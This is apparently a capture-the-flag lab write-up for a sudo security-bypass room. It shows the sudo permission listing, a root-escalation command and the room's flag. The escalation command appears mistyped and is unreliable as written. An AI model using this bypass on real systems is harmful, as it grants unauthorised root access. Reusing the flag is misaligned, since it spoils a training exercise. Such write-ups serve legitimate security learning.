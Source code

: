 # Machine NAME : Sudo Security Bypass
# Machine IP : 10.10.153.192

"""TASK 1: Deploy!"""

"""TASK 2: Secuiry Bypass"""
1. What command are you allowed to run with sudo? <br>
/bin/bash <br>

2. What is the flag in /root/root.txt? <br>
following this : <br>

tryhackme@sudo-privesc:/bin$ sudo -l <br>

Matching Defaults entries for tryhackme on sudo-privesc: <br>
    env_reset, mail_badpass, <br>
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/ <br>bin\:/sbin\:/bin\:/snap/bin <br>

User tryhackme may run the following commands on sudo-privesc: <br>
    (ALL, !root) NOPASSWD: /bin/bash <br>

Privilage Escalate Command this ! <br>
sudo -u#1 /bin/bash <br>

root flag : THM{l33t_s3cur1ty_bypass}